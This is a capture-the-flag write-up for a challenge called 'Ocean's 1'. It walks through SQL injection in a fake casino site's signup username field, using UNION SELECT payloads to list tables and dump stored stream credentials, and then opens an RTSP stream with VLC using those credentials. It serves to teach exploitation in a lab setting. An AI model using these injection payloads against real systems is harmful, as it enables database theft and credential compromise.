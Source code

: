 # Ocean's 1

We are first greeted by a casino website with a slots machine. Testing the different routes for injections, we can see errors on the username field in the `/signup` route.

Trying this username:
```
user" AND 1=0 UNION SELECT 1 --
```

Yields the following error:
```
User 1 already exists
```

From there, we can try to dump the database into one column.
```
user" AND 1=0 UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```

From there, we find two tables: `users` and `streams`. By looking at `streams`'s columns with this injection: `username" AND 1=0 UNION SELECT GROUP_CONCAT(name) FROM pragma_table_info('streams')--`, we get the following:
- `id`
- `endpoint`
- `username`
- `password`

We can then dump all the values with this injection: `username" AND 1=0 UNION SELECT GROUP_CONCAT(CONCAT(id,endpoint,username,password)) FROM streams--`
- `13a1169d-52e1-4b88-ba37-ba6f910a1d25`
- `/slots.rtsp`
- `operator`
- `dQw4w9WgXcQ`


We notice a path of /slots.rtsp with some credentials. However, this path does not work on the HTTP server. If we try to connect via VLC with the RTSP like so, we can see the first flag appear on stream.
```sh
$ vlc rtsp://operator:dQw4w9WgXcQ@polypwngrand.ctf/slots.rtsp
```